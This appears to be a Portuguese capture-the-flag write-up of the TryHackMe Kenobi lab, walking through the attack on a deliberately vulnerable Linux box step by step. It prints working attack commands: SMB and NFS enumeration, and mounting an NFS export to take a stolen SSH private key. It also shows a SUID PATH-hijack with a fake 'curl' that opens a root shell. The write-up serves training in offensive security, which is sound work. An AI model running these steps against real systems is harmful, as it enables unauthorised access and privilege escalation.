

O laboratório Kenobi do TryHackMe simula um ambiente Linux vulnerável, focando em técnicas de enumeração de serviços, exploração de compartilhamentos Samba/NFS, análise de serviços FTP e escalada de privilégios. O objetivo é obter acesso root, passando por diferentes etapas de exploração e raciocínio lógico.
Este relatório detalha cada fase do processo, explicando comandos, ferramentas e decisões tomadas para alcançar o objetivo final.
O primeiro passo é identificar serviços expostos e compartilhamentos de arquivos. Utilizamos o nmap com scripts específicos para Samba:
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
O resultado revela diversos compartilhamentos disponíveis, incluindo o compartilhamento anonymous.

Em seguida, conectamos ao compartilhamento identificado utilizando o smbclient:
smbclient //MACHINE_IP/anonymous
Após conectar, um simples ls revela arquivos disponíveis para leitura.

Para identificar montagens NFS, utilizamos novamente o nmap com scripts voltados para NFS:
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
O resultado mostra que um diretório está disponível para montagem via NFS.

Com os compartilhamentos identificados, buscamos vulnerabilidades em outros serviços. Utilizando netcat para conectar à porta FTP e identificar a versão do ProFTPd:
nc MACHINE_IP 21

Com a versão identificada, buscamos exploits conhecidos usando o searchsploit:
searchsploit proftpd versão

Baseado no exploit do módulo mod_copy, conseguimos copiar a chave privada SSH para o diretório montado via NFS.
Montamos o diretório NFS localmente e copiamos a chave privada:
sudo mkdir /mnt/kenobiNFS
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@MACHINE_IP
ls

Agora temos acesso ao usuário kenobi via SSH e podemos acessar o arquivo user.txt contendo a primeira flag.
Para obter acesso root, iniciamos a busca por arquivos SUID, que podem ser explorados para escalada de privilégios:
find / -perm -u=s -type f 2>/dev/null

Encontramos um binário incomum chamado /menu. Ao executá-lo, são apresentadas opções de menu.

Aparentemente o binário utiliza o comando curl sem especificar o caminho absoluto, permitindo manipulação da variável PATH. Para explorar:
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
Ao selecionar a opção que executa curl, nosso script é executado como root, abrindo um shell privilegiado. Assim, podemos acessar o diretório /root e ler a flag final:
cd /root
cat root.txt

O lab Kenobi é excelente para consolidar conhecimentos em enumeração, exploração de serviços e técnicas de pós-exploração em sistemas Linux.